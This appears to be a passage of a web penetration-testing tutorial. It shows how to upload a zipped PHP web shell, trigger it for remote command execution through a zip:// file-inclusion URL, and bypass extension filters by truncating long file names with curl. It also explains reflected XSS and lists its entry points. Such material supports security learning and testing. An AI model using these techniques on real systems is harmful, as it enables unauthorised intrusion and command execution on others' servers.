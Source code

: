 First step would be to store this php payload in a php file such as \[cmd.php] Next step to zip the php file into a zip file

```
zip shell.zip cmd.php
```

Then you can use \[curl] or the browser to upload the file. Last step it to trigger the shell is done by navigating to the uploads path on the target domain and locating the file. For example, for the above shell we can browse to the below URL to trigger the shell

```
http://domain.com?file=zip://uploads/[filename]%23cmd&cmd=[command]
```

Replace \[filename] with the name you have found. The \[%23] is the \[#] character and \[cmd] is the parameter through which the command will be executed. **Using File Name Truncation** File name trunctation is a bypass method where the last four characters of the file get truncated. #For #example A file named \[upload.php.png] won't get uploaded if the server filters for extenstions such as \[png]. One way to bypass this is to use long name enough to make the server omit the last four characters that happen to be \[.png] so the final file name would be \[AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png] To test this you can create a variable such as \[$URL] as the below shows

```
URL=$(python -c 'print "http://domain.com/upload" + "A"*232 + ".php.png"')
```

and use the \[$URL] in a curl command to see the server response

```
curl -i -s -k -X $'POST' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary "url=$URL"
```

#### XSS

Cross-site scripting (XSS) is a web application vulnerability that allows attackers to inject scripts into webpages. There are two types of XSS attacks. The primary protection against XSS attacks is at the web application with sophisticated input validation techniques. OWASP strongly recommends the use of a security encoding library. When implemented, an encoding library will sanitize HTML code and prevent XSS attacks.

**Reflected XSS**

This starts by an attacker crafting a malicious email and then encouraging a user to click it. The malicious URL is often placed within a phishing email, but it could also be placed on a public website, such as a link within a comment. When the user clicks the malicious URL, it sends an HTTP request to a server with the user's cookie which the attacker can use to hijack the user/admin account through what's called session hijacking. To summarize, an attacker needs to trick a victim into clicking a URL to execute their malicious payload. **Entry points**

```
Parameters in the URL Query String
URL File Path
Sometimes HTTP Headers 
Search Fields
Comments section
Contact Forms
```
